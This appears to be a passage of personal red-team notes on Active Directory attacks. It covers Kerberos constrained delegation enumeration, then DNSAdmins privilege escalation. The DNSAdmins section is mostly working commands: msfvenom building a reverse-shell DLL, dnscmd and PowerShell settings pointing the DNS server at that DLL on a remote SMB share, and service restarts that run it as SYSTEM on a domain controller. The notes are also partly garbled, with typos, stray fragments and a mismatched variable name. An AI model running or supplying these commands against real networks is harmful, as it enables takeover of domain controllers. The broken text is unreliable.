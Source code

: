 To impersonate the user, Service for User (S4U) extension is used which provides two extensions:
- Service for User to Self (S4U2self) - Allows a service to obtain a forwardable TGS to itself on behalf of a user. The service acccount must have `TRUST_TO_AUTHENTICATE_FOR_DELEGATION - T2A4D UserAccountControl attribute`
- Service for User to Proxy (S4U2proxy) - Allows service to obtain a TGS to a second service on behalf of a user.

#### Prerequisites
- Hunt for user accounts that have kerberos constrained delegation enabled:
	`Get-NetUser -TrustedToAuth`
	*User has to have an attribute `TRUSTED_TO_AUTH_FOR_DELEGATION` in order for it to be able to authenticate to the remote service*

![[Pasted image 20220607000346.png]]

`msds-allowedtodelegateto` identifies the SPNs of services the user `spot` is trusted to delegate to and authenticate to - in this case, CIFS service on DC01 on behalf of any other domain user.
- Using ActiveDirectory module:
	`Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo`
	
![](https://i.imgur.com/2ZFXRRE.png)

> If we have access to the account, it is possible to access the services listed in msDS-AllowedToDelegateTo of the websvc account as ANY user.

16DPE:Cons:: 11:48

<center><h1>DNSAdmin</h1></center>
It is possible for the member of DNSAdmins group to load arbitrary DLL with the privileges of dns.exe (SYSTEM)




Maliciouis DLL file: 
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.4.1 LPORT=4444 -f dll > exploit.dll

# Export this with SMB service (victim machinls

dnscmd.exe 127.0.0.1 /config /serverlevelplugindll \\10.10.14.8\share\exploit.dll

# Powershell
cmd /c 'dnscmd /config /serverlevelplugindll \\10.10.14.8\share\exploit.dll'

# Stop and Start the DNS service which will download the malicious dll file and execute it
sc.exe stop dns ; sc.exe start dns



# Using DNSServer module (Needs RSAT DNS):
$dnssettings = Get-DnsServerSetting -ComputerName dcorp-dc -Verbose -All
$dnssettings.ServerLevelPluginDll = "\\10.10.14.8\share\exploit.dll"
Set-DnsServerSetting -InputObject $dnsetting -ComputerName dcorp-dc -Verbose

# Stop and Start the DNS service which will download the dll file and execute it
sc \\dcorp-dc stop dns ; sc \\dcorp-dc start dns

```
